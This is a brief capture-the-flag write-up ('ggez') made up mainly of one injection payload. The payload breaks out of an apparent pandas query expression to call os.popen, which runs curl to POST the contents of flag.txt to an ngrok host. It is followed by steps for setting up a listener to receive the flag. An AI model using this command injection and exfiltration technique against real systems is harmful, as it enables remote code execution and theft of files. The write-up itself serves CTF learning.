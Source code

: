 # Writeup - ggez
payload = `' and @pd.io.common.os.popen('curl -X POST -d "flag=$(cat flag.txt)" -ipv4 https://a56e-111-95-107-251.ngrok-free.app') #`

1. create local server to accept flags from services.
2. use ngrok or pipedream to make your local server accessible from the internet
3. submit the flag
